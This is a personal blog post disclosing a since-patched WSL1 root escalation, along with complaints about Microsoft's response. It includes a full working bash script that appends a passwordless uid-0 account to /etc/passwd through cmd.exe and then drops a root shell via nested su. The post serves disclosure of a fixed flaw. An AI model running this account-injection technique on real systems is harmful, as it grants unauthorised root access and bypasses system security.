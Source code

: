 ```yaml
---
title: Root Escalation Vulnerability in WSL1
date: 2021-01-17 05:30:13
tags: security,vulnerability,wsl
excerpt: I explain a vulnerability that was found in WSL1 that allowed a "guest" system root escalation via the filesystem and .exe bridges.
---
```


> **NOTE: This vulnerability seems to have been silently patched by Microsoft since reaching out to them.**
> Whether or not my reaching out to them was what triggered the fix, I can't say for sure.

About a year ago I accidentally came across some strange filesystem properties
in WSL1 that I was ultimately able to exploit to gain root permissions in the
Ubuntu system I was running under WSL1. However, I imagine this could have been used
in any Linux installation under the WSL1 subsystem.

Speaking of Microsoft, I reached out to three different members of the WSL team regarding
any sort of bounty program for a WSL1 vulnerability regarding root escalation by means of the
filesystem bridge, or if that was something they'd be interested in. None of said contacts
wanted much to do with me. I was met with short responses, and ultimately ghosted entirely.

Microsoft has since patched this, so I guess if you can do it yourself, fuck the security
community right?

So I figured I'd write about it here.

Before I begin, let me give you my unsolicited opinion: both WSL1 and 2 are terrible
excuses for software and you should not be using them if you need a secure Linux installation.
Just use bare-metal Linux, or a proper VM (WSL2 is not a proper VM<sup>[[1]](https://news.ycombinator.com/item?id=25612962)</sup><sup>[[2]](https://news.ycombinator.com/item?id=24641441)</sup>).
We need to stop giving big corporations a free pass to spit out whatever nonsense they want while their employees
yell at independent open-sourcers for not moving fast enough, all the while profiting off
their work with little to no compensation.

With that, let's begin.

---

The exploit is rather simple - so simple, in fact, that it was found _by accident_ while writing some
build scripts that utilized a Windows executable to generate a file in the Linux filesystem.

When a file is created from Windows in the Linux subsystem's filesystem via the network mount,
the file has User-level security and permissions on Windows, but `root:root` ownership and
`a+wrx` permissions on Linux.

Why Microsoft decided this was a sane default concerns me.

All we have to do is tack on an entry in `passwd` with `uid=0,gid=0` using the Windows console
and we're able to `su`; however, in my findings, I couldn't execute just anything under `su` as
the dummy root account, but the one thing I could run under `su` was `su` itself, and since
I was `uid=0` then I could simply run `su root` again and drop a shell as the _real_ `root` account.

Putting it all together, let's set up our elevation script with some boilerplate that makes sure
we're not masking any errors.

```shell
#!/usr/bin/env bash
set -euo pipefail
```

Then, let's make sure we're actually running under WSL (because it makes no sense to attempt this
in any other environment).

```shell
function is_wsl() {
	command -v wslpath &>/dev/null
}
if ! is_wsl; then
	echo 'error: not wsl' >&2
	exit 1
fi
```

Next, we'll create a temporary file that we can `type.exe` out from the Windows side. This file
will contain our dummy root account entry that will be appended to `passwd`. Note the UID and GID
fields being `0`.

```shell
printf '%s\n' "lul::0:0::/:/bin/bash" > /tmp/passwd.lul
```

Now, we make use of WSL1's automatic `.exe` handling and execute `cmd.exe` to append our entry
to `/etc/passwd`. Since Window's doesn't understand Linux paths inherently, we pass them through the
`wslpath` utility first.

```shell
cmd.exe /C type "$(wslpath -w /)tmp\\passwd.lul" \>\> "$(wslpath -w /)etc\\passwd"
```

A little cleanup.

```shell
rm /tmp/passwd.lul
```

Finally, we drop a root shell using the nested `su`:

```shell
su - lul /bin/sh -c /bin/su root
```

---

Creating a file using this method no longer creates the files as root, but as the running user within
the linux subsystem, which effectively patched everything up. That being said, I can almost guarantee
you this was abused in some fashion, maliciously or not.

I'm a little annoyed that Microsoft didn't take my attempt to report seriously, but still found it important enough
_internally_ to investigate and fix it. Now with all of the shit coming out about WSL2 being utter garbage,
it's safe to say that WSL is, overall, a very failed experiment - which says something about NT, which was
designed exactly for this purpose.

I suppose I'm happy it's patched, but still leaves a really shit taste in my mouth.

\- Alto
